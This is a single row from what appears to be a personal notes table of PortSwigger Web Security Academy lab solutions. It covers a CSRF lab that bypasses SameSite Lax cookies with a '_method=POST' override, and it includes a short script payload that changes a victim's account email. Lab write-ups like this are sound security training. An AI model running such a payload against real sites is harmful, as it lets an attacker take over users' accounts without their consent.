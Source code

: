 |48    |SameSite Lax bypass via method override                                                                                  |Change method via Burp, and add &_method=POST.  GET /my-account/change-email?email=kento@kentosec.com&_method=POST  <script>     document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST"; </script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |No CSRF specific implementations, the /login request doesn’t specify SameSite flag, so the default Lax is used. This means the cookie will be sent in cross-site GET requests, as long as they involve a top-level navigation.  Changing the request method is blocked, but can be bypassed by adding &_method=POST to the end of the URL.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |CSRF, Practitioner                          |